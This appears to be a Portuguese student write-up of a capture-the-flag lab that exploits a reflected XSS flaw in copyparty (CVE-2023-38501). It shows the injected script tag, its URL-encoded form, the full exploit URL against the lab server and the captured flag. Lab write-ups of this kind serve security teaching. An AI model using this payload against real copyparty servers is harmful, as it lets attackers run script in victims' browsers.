 # CTF XSS

Este CTF foi realizado no servidor [http://ctf-fsi.fe.up.pt:5007](http://ctf-fsi.fe.up.pt:4005/).

Após verificarmos que o ficheiro flag.txt não fornece acesso direto, mesmo estando descaradamente exposto no server, exploramos os outros ficheiros listados.

Deparámo-nos com o ficheiro SECURITY.md:

![image4](images_CTF7.md/image4.png)

Acedemos ao repositório GitHub ( [https://github.com/9001/copyparty/security/advisories/GHSA-f54q-j679-p9hh](https://github.com/9001/copyparty/security/advisories/GHSA-f54q-j679-p9hh) ) onde uma vulnerabilidade copyparty estava descrita (CVE-2023-38501):

![image1](images_CTF7.md/image1.png)

Desta forma, descobrimos que, para acedermos à flag via um ataque de XSS, teríamos que explorar esta vulnerabilidade, que permite que um script malicioso seja injetado no URL.

Usando este exemplo:

![image7](images_CTF7.md/image7.png)

Sabemos então que antes de pôr o nosso script temos de pôr o seguinte url:

http://ctf-fsi.fe.up.pt:5007/?k304=y

Vamos, então, construir o script malicioso:

<br>
<br>

\<script\>  
fetch('/flag.txt')  
.then(response \=\>response.text())  
\</script\>

(Para saber que era preciso deixar duas linhas em branco fomos testando por tentativa e erro, testamos primeiro sem nenhuma, depois com uma e com duas já funcionou, cada nova linha é codificada com %0A . Isto depende de quantos espaços é que o servidor precisa para a separação entre o url e o código de javascript.)

Convertemos em URL:

![image6](images_CTF7.md/image6.png)

(no site: [https://www.urlencoder.org/](https://www.urlencoder.org/) )

Observamos no resultado:

%0A%0A%3Cscript%3E%0Afetch%28%27%2Fflag.txt%27%29%0A.then%28response%20%3D%3Eresponse.text%28%29%29%0A%3C%2Fscript%3E

Juntamos com o ínicio:

[http://ctf-fsi.fe.up.pt:5007/?k304=y%0A%0A%3Cscript%3E%0Afetch%28%27%2Fflag.txt%27%29%0A.then%28response%20%3D%3Eresponse.text%28%29%29%0A%3C%2Fscript%3E](http://ctf-fsi.fe.up.pt:5007/?k304=y%0A%0A%3Cscript%3E%0Afetch%28%27%2Fflag.txt%27%29%0A.then%28response%20%3D%3Eresponse.text%28%29%29%0A%3C%2Fscript%3E)

![image3](images_CTF7.md/image3.png)

Vimos parar a esta página.

Abrimos as ferramentas de desenvolvedor com f12 e vamos à tab de network.

![image5](images_CTF7.md/image5.png)

Damos refresh à página:

![image2](images_CTF7.md/image2.png)

Selecionamos superblyHiddenFlagDI79….:  

![image8](images_CTF7.md/image8.png)

E colamos a resposta:

flag{youGotMeReallyGood}

Concluindo assim o CTF.

